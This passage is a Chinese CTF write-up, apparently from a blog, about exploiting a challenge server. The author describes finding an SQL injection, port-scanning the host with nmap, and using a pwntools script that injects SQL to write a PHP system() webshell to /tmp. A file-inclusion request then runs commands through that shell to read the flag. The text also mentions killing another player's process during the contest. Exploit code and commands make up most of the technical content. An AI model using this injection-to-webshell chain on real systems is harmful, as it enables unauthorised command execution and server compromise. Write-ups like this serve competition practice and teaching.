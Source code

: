 ![image_1b4bmfk1k1v79e2p1j6m2oguas1t.png-19.7kB][7]
报错了，那么任意构造语句，仔细观察可以发现，在线上的web部分，还有返回值是数据库中的。

讲道理到这里对于一个webU•ェ•*U就已经很简单了。

对于一个注入点来说，对于一个正常的web选手来说，可显注，可显错注入（有报错），然后测试一下就发现，线上数据库权限非常高，可以随便写文件（into outfile），再加上有任意文件包含，那么就可以随便getshell...


但是问题来了，服务端口在哪，苦寻无果，nmap一波

```
root@iZ285ei82c1Z:~# nmap -sT -Pn 54.223.241.254 -p10000-60000

Starting Nmap 6.40 ( http://nmap.org ) at 2016-12-18 16:05 CST
Nmap scan report for ec2-54-223-241-254.cn-north-1.compute.amazonaws.com.cn (54.223.241.254)
Host is up (0.035s latency).
Not shown: 49999 closed ports
PORT      STATE SERVICE
22222/tcp open  unknown
22333/tcp open  unknown

```

找到了22333就是服务端口，然后就很简单了，既然可以注入先翻翻数据库，数据库没东西，那么就写webshell。

这里碰到了nonick搅屎删文件，还强行竞争了一波杀了它的进程

```
from pwn import *
context.log_level = 'debug'

#R = process('./raft')
R = remote('54.223.241.254',22333)

R.recvuntil('A date with Firesun is on sale!\n')
dddd = '2333\');select \'<?php system($_POST["ddog"]) ?>\' into outfile \'/tmp/ddog3\';#'

R.send('bid '+q+'d'*(995-len(dddd))+'\n')
R.send('reg '+'2'*995+'\n')
R.recv()
R.interactive()
```

get flag
```
http://54.223.241.254/?page=/tmp/ddog3

ddog=cat /home/ctf/this-is-real-flag000
```

所有思路都已经说明白了，如果还有人觉得有问题的话，可以直接细聊我，关于更多的事情，我没能力解释更多，只能说多说无益，借用脚本确实有错，所以被取消分数也没有太多怨言，但是更多事情只能说很多事情自在人心....以后就不做pwn题了，也免得给大家带来困扰

  [1]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/3mynkfeq39k3eohjz2wva98s/image_1b4b8pauc117a19crdtp881429.png
  [2]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/rh6m1p9mjf19e6n3j59ot0xa/image_1b4b8rnc814s0156ajbfte81hldm.png
  [3]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/1ha3vmag9gtx6e9ptlcecfkr/image_1b4bmmlia1medbfg10g8f4k19lb2a.png
  [4]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/jn6usw0gx80qh5ykbxc047sv/image_1b4bmn0iq1k6p1tk917u41hmplll2n.png
  [5]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/8n1tc1fgzkxpta6chyr7cf7u/image_1b4bm3d0dsa05tb12kn2pf13dj13.png
  [6]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/dkwvpgccd2dzjtizdiyabf2w/image_1b4bm9226mls1v269euegadg61g.png
  [7]: https://lorexxar-blog.oss-cn-shanghai.aliyuncs.com/zybuluo-backup/LoRexxar/q9svyk6depyg3ngjv6f2b3hw/image_1b4bmfk1k1v79e2p1j6m2oguas1t.png